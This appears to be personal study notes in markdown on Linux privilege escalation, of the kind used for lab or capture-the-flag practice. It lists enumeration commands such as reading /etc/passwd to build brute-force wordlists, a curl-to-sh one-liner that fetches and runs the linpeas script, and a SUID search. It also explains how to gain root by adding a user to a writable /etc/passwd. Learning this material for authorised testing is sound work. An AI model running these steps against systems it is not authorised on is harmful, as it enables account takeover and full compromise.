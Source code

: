 # privellege escilation

## Enumaration

```hostname```
```uname -a```
```cat /proc/version```
```cat /etc/passwd```
```env```
```history```


To get a nice wordlist which will help you in bruteforcing for other user accounts you can cut /etc/passwd file to reduce the noise 

```cat /etc/passwd | cut -d ":" -f 1```



# Automated tools

## linpeas
```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```
```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```

## linenum
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh


# Tactics

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit


Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo services
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

## SUID and GUID files
The first step in Linux privilege escalation exploitation is to check for files with the SUID/GUID bit set. This means that the file or files can be run with the permissions of the file(s) owner/group.
Finding suid binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

find - Initiates the "find" command

/ - Searches the whole file system

-perm - searches for files with specific permissions

-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form

-type f - Only search for files

2>/dev/null - Suppresses errors


## Exploiting a writable /etc/passwd

Understanding /etc/passwd

The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!









